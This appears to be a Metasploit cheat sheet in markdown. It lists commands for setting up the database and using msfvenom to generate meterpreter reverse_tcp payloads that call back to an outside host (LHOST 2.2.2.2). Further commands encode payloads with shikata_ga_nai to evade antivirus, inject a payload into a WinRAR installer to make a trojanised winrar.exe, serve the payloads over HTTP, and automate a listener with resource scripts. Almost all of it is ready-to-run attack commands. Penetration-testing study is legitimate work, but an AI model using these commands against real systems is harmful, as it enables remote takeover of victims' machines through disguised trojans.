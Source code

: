 # The Metasploit Framework
https://github.com/penetration-testing-execution-standard/ptes
```
systemctl enable postgresql
systemctl start postgresql
systemctl status postgresql
msfdb init

db_status
```
Some commands:
```
connect
workspace

```

### Client-side attacks
**Generating payloads with Msfvenom**
```
msfvenom --list payloads
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=2.2.2.2 LPORT=1234 -f exe > /home/kali/Desktop/payloadx86.exe
msfvenom --list formats
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=2.2.2.2 LPORT=1234 -f elf > /home/kali/Desktop/payloadx86
chmod +x payloadx86

sudo python -m SimpleHTTPServer 80
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Encoding payloads with Msfvenom**
```
msfvenom --list encoders
msfvenom -p windows/meterpreter/reverse_tcp LHOST=2.2.2.2 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodedx86.exe
```

**Injecting payloads into Windows portable executables**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=2.2.2.2 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -x ~/Downloads/wrar602.exe > /home/kali/Desktop/winrar.exe
run post/windows/manage/migrate
```

### Automating
**Automating Metasploit with resource scripts**
```
ls -al /usr/share/metasploit-framework/scripts/resource

nano handler.rc
use multi/handler
set PAYLOAD ...
run

msfconsole -r handler.rc

resource handler.rc

makerc /home/kali/Desktop/portscan.rc
```
